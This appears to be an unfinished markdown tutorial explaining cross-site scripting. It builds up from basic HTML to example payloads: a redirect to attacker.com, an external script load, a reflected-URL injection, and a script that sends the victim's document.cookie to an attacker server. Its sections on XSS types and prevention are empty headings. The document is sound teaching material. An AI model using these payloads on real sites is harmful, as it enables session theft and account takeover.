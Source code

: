 An XXS vulnerability occurs when an attacker executes a custom script on the users browser. 
These attacks inject their code onto pages being viewed by other uses and can lead to things like leaking personal information, stealing cookies, changing site content, and or redirect the user to a malicious site. 
## Mechanisms
The attacker injects a script into webpages that users view, in order to understand XSS we first need to understand HTML and Javascript syntax.
Web pages are made up of HTML code that describe the pages structure and contents.

```html
<html>
	<h1>Welcome to my web page.</h1>
	<p>Thanks for visiting!</p>
</html>
```

HTML also allows us to embed images within pages, create user-input forms, link to external pages, and perform various other tasks.
It also allows us to execute scripts inside of HTML documents, its used to control client side application logic to create an interactive experience. 

```html
<html>
	<script>alert("Hello!");</script>
	<h1>Welcome to my web page.</h1>
	<p>Thanks for visiting!</p>
</html>
```

This script creates a pop-up message on the webpage that says `Hello!`.
This is called an `inline script` and are the cause for many XSS vulnerabilities. 

```html
<html>
	<script>alert("Hello!");</script>
	<h1>Welcome to my site.</h1>
	<h3>This is a cybersecurity newsletter that focuses on bug bounty news and write-ups. Please subscribe to my newsletter below to receive new cybersecurity articles in your email inbox.</h3>
	<form action"/subscribe" method="POST">
		<label for="email">Email:</label><br>
		<input type="text" id="email" value="Please enter your email.">
		<br><br>
		<input type="submit" value="Submit">
	</form>
</html>
```

This page contains a form that lets users subscribe to a newsletter.
After a users inputs their email the website confirms it by displaying it on the screen: 
```html
<p>Thanks! You have subscribed <b>example@gmail.com</b> to newsletter.</p>
```

What if the user decides to input a script instead of an email address? 

```html
<script>location="http://attacker.com";</script>
```

If the web application doesn't validate or sanitize the input before displaying the confirmation message the source code for the page would change.

```html
<p>Thanks! You have subscribed <b><script>location="http://attacker.com";</script></b> to newsletter.</p>
```

Validating user input means that the web app checks that the user input meets a certain standard. 
It should change special characters in the input that could be used as a means to interfere with our HTML logic. 
The example were seeing now would cause the user to be redirected to a malicious site.
XSS happens when attackers inject scripts in this way onto a page that another user is visiting. 

```html
<script src=http://attacker.com/xss.js></script>
```

Attackers can also manipulate the `src` attribute in HTML to load javascript files from external sources to execute in the users browser.
This example isn't really possible since there is no way to inject a script but they can redirect themselves to a malicious page. 

```html
http://subscribe.example.com?email=<script>location="http://attacker.com";</script>
```

However lets say the site also allows users to subscribe to the newsletter by visiting a URL, after they visit they will be subscribed, the confirmation will be shown on the users browser.
Attackers can inject a script that included in the link, the browser will think that the script is part of the actual website. 
The script could access resources stored on the browser like cookies and session tokens resulting in your information being stolen and possibly losing access to user accounts. 

```html
<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>
```

This example of an XSS attack sends a request to the attack with the victims cookie as a URL parameter. 

## Types of XSS
#### Stored XSS
#### Blind XSS
#### Reflected XSS
#### DOM Based XSS
#### Self XSS
## Prevention
